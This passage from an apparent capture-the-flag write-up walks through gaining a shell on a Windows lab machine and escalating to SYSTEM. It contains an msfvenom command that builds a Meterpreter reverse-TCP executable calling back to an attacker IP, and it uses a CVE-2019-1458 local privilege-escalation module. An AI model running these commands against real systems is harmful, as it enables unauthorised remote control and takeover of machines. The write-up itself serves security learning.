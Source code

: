 Now press run and request the `shell.php` file.

![](10.png)

We got the shell.

# **Privilege Escalation**

The current shell we have doesn't help us do much, so let's upgrade it first.

Generate another shell with `msfvenom` but this time it's gonna be a .exe executable and with x64 architecture.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.66.66.158 LPORT=7777 -f exe -o shell.exe
```

Upload it to the target machine using meterpreter upload function.

Set up another multi handler with the correct options and run it in the background with `run -j`.

Back to the meterpreter session, execute the binary with `execute -f shell.exe`, you should see a meterpreter session getting opened.

![](11.png)

Nice, now if we run `exploit_suggester` module, it's going to suggest some modules that would help us escalate our privileges.

![](13.png)


The exploit we're going to use is `windows/local/cve_2019_1458_wizardopium`.

![](12.png)

Great! We have SYSTEM privileges now.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

